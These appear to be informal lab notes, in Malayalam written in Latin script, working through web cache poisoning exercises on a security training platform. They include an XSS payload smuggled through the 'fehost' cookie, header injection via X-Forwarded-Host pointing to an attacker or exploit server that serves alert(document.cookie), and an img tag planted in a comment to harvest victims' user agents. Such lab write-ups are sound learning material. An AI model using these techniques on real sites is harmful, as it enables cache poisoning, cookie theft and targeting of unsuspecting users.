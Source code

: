 ==============================================================

           Lab-2(Web cache poisoning with an unkeyed cookie)
-->namal lab open chyuka enit burp open chyth website onudi refresh chyuka
-->so aa page inte /GET / request eduth repeater il iduka
-->aa request il  `fehost=prod-cache`  enn cookie undakum so aa request onum chyath send adikuka apol response il kanam aa prod-cache enna string oru javascript object il reflect aayi kidakunath
-->so aa prod-cache ennath maati vere enthengilum string kodukuka apol athum reflect aakunund
-->so namuk ithil oru xss test chyth nokam.so aadyam cachebuster iduka ie,?cb=1.apol athava xss trigger aayalum mattu users ine ath bhadhikunila.illengi aa chache expiry aakunath vere aa payload trigger aakum
-->so aa fehost enna cookyil `fehost=someString"-alert(1)-"someString`    enna kodukuka enit send chyuka ath reflect aakunund
-->so aa response right click chyth show response in browser click chyth browser il poi itt check chyuka xss akunundon.so aakunund
-->ini aa cachebuster remove chyth onukoodi same steps chyuka apol sherikum aa /GET / request il cache poisoning aakum.so lab solve aayi

==============================================================

             Lab-3(Web cache poisoning with multiple headers)  -not completed
-->lab open chyuka enit `/resources/js/tracking.js` ee path ulla /GET request eduth repeateril iduka
-->enit oru cache buster kodukuka.enit x-forwarded-host: example.com enn kodukumbol response il prathyekich onum kanan ila
-->so x-forwarded-scheme: http enn kodukunu ath kore pravisham send adikuka apol 200OK response maari 302 moved permenantly enn kanum.athil location https://siteurl  enn kanam
-->so ini x-forawarded-scheme inte koode x-forwarded-host: attacker.com enn kodukuka apool namuk open redirection nadakunath kanam.(x-forwarded-schem: nohttps enn kodukanam)
-->ini namuk nerthe pole exploit server il vanit body il alert(2) enn koduth file path ee request inte path kodukuka
-->ini namude repeater il poi server inte url x-forwarded-host il kodukuka enit x-cache: hit enn varunath vere send adikuka
-->lab solve aakan cache buster remove chythit send adich x-cache: hit vere chyuka apol poisoning nadakum

==============================================================

        Lab-4(Targeted web cache poisoning using an unknown header) - cant solve
-->namal lab open chyuka enit aa home page refresh chyuka burp histrory il poi /GET / request eduth repeater il iduka
-->right click chyth param miner inte guess header select chyuka.extender tab il poi output select chythal namuk kanan patum enthoke result kitunu enn
-->apol kanan patum x-host enna header hidden aayit aa request il use chyunund
-->so oru cachebuster pathil kodukua enit ee x-host: example.com ennadich send chyuka (aadyam request send adich x-cache: hit varuthanam)
-->ee example.com enna string oru url il dynamic aayi add chythirikuakayaan.so ee url il ninum entho javascript file retrieve chyukayan application ie, `example.com/resources/js/tracking.js`
-->so ini namal server il poi `/resources/js/tracking.js`  filename kodukuka apol namude server il ninum javascript file application edukum.but application areela ithala application venda js file enn .enit body il alert(document.cookie) koduth store chyuka
-->ini x-host: exploit server urlpath kodukuka enit send chyuka. x-cache: hit enn verunath vere send chyuka
-->ini notice chyuka response il vary: useragent  enn kanam.so athinartham useragent keyed aan
-->so ini site il blog post il comment iduna sthalath html injection chyan patum so : `<img src="https://your-exploit-server-id.web-security-academy.net/foo" />`   enn koduth save chyuka
-->so ini expoit server il poi access log click chyuka apol avide vech kananan patum namude victim use chyuna user agent ethanen
-->so ath copy chyth repeaterile request il poi aa corresponding header il paste chyuka enit cachebuster remove chyuka enit send chyuka x-cache: hit kitunathvere
-->ipol cache poisoned aayi.lab solve aayikolum
